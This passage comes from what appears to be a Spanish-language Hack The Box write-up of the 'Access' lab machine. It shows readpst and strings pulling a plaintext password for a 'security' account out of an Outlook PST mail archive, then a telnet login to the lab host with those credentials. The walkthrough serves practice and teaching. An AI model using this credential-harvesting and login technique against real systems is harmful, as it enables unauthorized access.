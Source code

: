Desafortunadamente para la solución, no le estoy pasando como argumento la contraseña, pero les puedo asegurar que esa es la pass.

# Read PST file

Después de descomprimir el zip, tenemos un archivo con extensión **PST**, que es comúnmente usado por Outlook/Exchange, para almacenar los correos como un archivo, similar a EML. Exploramos este archivo con `readpst`:

```text
xbytemx@laptop:~/htb/access/ftp-anon/10.10.10.98/Engineer$ readpst Access\ Control.pst
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

Tenemos un archivo tipo **MBOX** como salida, el cual simplemente pasamos por `strings`:

```text
xbytemx@laptop:~/htb/access/ftp-anon/10.10.10.98/Engineer$ strings Access\ Control.mbox00000001
From "john@megacorp.com" Thu Aug 23 18:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-1807661852_-_-"
----boundary-LibPST-iamunique-1807661852_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-1807661852_-_-"
--alt---boundary-LibPST-iamunique-1807661852_-_-
Content-Type: text/plain; charset="utf-8"
Hi there,
The password for the
security
 account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
Regards,
John
```

Corte el contenido posterior para no dejar muy extensa esta parte.

Descubrimos que la password de la cuenta *security* es **4Cc3ssC0ntr0ller**.

> Creds for telnet is security / 4Cc3ssC0ntr0ller

# *cat user.txt*

Usando estas credenciales, ingresemos por telnet:

```text
xbytemx@laptop:~/htb/access/ftp-anon/10.10.10.98/Engineer$ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: security
password:

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop
```